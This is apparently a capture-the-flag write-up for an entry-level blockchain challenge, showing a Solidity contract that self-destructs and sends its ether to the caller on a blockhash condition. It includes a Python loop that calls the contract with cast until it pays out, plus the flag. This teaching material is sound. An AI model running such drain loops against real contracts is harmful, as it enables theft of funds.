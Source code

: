 # RussianRoulette

![](./assets/CA_banner.jpg)

> Date: 31<sup>st</sup> January 2024 \
Challenge Author: <font color=#1E9F9A>perrythepwner</font> \
Difficulty: <font color=green>Very Easy</font> \
Category: <font color=orange> Blockchain</font>

# TL;DR

- This challenge aims to be an entry level / warmup for the blockchain category. In order to solve, players need to send a bunch of transactions until they get lucky (i.e. pulling the trigger until the contract shot himself).


## Description

```
Welcome adventurer.  
This is a warm-up to test if you have what it takes to tackle the thorny challenges of the realm. Are you brave enough to try to win this bag?
```

## Skills Required

- Smart contract interaction.


## Skills Learned

- Smart contract interaction.
- Block dependency


## Challenge scenario

Players will find an instance of a challenge handler when the challenge is launched, as well as the related smart contracts source code.
The main objective of this warmup challenge is to understand how to interact with a smart contract.  
By connecting to the challenge handler they will have 3 possible options:

```shell
$ nc 0.0.0.0 8001
1 - launch new instance
2 - kill instance
3 - get flag
Action? 
```

We must therefore first launch the game instance, which will also give us the information necessary to connect.

```shell
$ nc 0.0.0.0 8001
1 - launch new instance
2 - kill instance
3 - get flag
action? 1
Your private blockchain has been deployed.
It will automatically terminate in 30 minutes.
Here's your connection info:

Team UUID: d2ee1510-3547-41ee-9712-e504f9fa8d7c
Player UUID: bd79e84b-a087-46ef-b815-9df3df2aeff9
RPC URL: http://0.0.0.0:8000/rpc/bd79e84b-a087-46ef-b815-9df3df2aeff9
Player Private Key: 0x891d623949bebefc41dabd95f8e0d9b81f5cc4924f1313c5f045df743fd70d13
Player Address: 0xcC2a1df34de11ea70879867d5b20A924DE684992
Setup Contract: 0x0570156bB596f10cf1354D488F01A9809B0C1F73
Target Contract: 0xf5d50Fe6c395aA0635Ac30039A9B3Fe16C99ef32
```

To connect to the blockchain we can use tools like [web3.py](https://github.com/ethereum/web3.py), [cast](https://book.getfoundry.sh/cast/), etc.
For the later exploitation, `cast` will be used.

## Analyzing the source code

Let's take a look to the given source codes.

**Setup.sol**
```solidity
pragma solidity 0.8.23;

import {RussianRoulette} from "./RussianRoulette.sol";

contract Setup {
    RussianRoulette public immutable TARGET;

    constructor() payable {
        TARGET = new RussianRoulette{value: 10 ether}();
    }

    function isSolved() public view returns (bool) {
        return msg.sender.balance >= 10 ether;
    }
}
```

This will, indeed, setup the challenge istance for us. We understand that a `TARGET` contract will be deployed with `10 ether` in it, and in order to solve to challenge our balance needs to be `>= 10 ether` (stealing them from the newly deployed contract).

**RussianRoulette.sol**
```solidity
pragma solidity 0.8.23;

contract RussianRoulette {

    constructor() payable {
        // i need more bullets
    }

    function pullTrigger() public returns (string memory) {
        if (uint256(blockhash(block.number - 1)) % 10 == 7) {
            selfdestruct(payable(msg.sender)); // 💀
        } else {
		return "im SAFU ... for now";
	    }
    }
}
```
This is the code we need to exploit. We can see that all the logic resides inside the `pullTrigger()` function.  
The `pullTrigger` function will `selfdestruct()` to the interacting address (`msg.sender`) if some conditions are met. Otherwise it'll just return a string telling us that it is [*"SAFU"*](https://www.google.com/search?&q=safu+meaning).

But, what does `selfdestruct()` do?  
From [Solidity 0.8.23 documentation](https://docs.soliditylang.org/en/v0.8.23/introduction-to-smart-contracts.html#deactivate-and-self-destruct) the `selfdestruct` instruction will erase the code from the blockchain for the upcoming blocks, ***and will send all the Ether inside it, to the specified address***.  
In that case, the specified address, is `msg.sender`, which is the address that is sending the transaction in that moment.  
Sounds interesting!

**NOTE**: Starting from Solidity 0.8.24 ("Cancun" upgrade), it'll change the behavior of "selfdestruct". It will no longer clear the contract code unless it's called on the deploying transaction. https://twitter.com/solidity_lang/status/1750775408013046257

**FUN FACT**: did you know that `SELFDESTRUCT` was once called `SUICIDE` and there is a `SELFDESTRUCT` alias for `SUICIDE` in Solidity? Here's the official EIP: https://github.com/ethereum/EIPs/blob/master/EIPS/eip-6.md

Having understood how `selfdestruct()` works in the Solidity version specified in the contract, we need to understand in what circumstances we will be rich.

```solidity
uint256(blockhash(block.number - 1)) % 10 == 7
```

This is the condition we need to trigger, which will simply take the previous block hash, convert it to uint256 (from bytes32), modulo it by 10, and if the reminder is 7, the contract will successfully headshot itself.  
Calling the function a bunch of times until we get lucky will do the work.    
That's called a Block Dependency issue, even if an unprotected selfdestruct on random function calls won't be a smart idea anyway :P


## Exploitation

```python
while True:
    # try luck
    system("cast send $TARGET 'pullTrigger()' --rpc-url $RPC_URL --private-key $PVK") 
    
    # get flag
    with remote("0.0.0.0", HANDLER_PORT) as p:
        p.recvuntil(b"action? ")
        p.sendline(b"3")
        flag = p.recvall().decode()
    if "HTB" in flag:
        print(f"\n\n[*] {flag}")
        break
```

> HTB{99%_0f_g4mbl3rs_quit_b4_bigwin}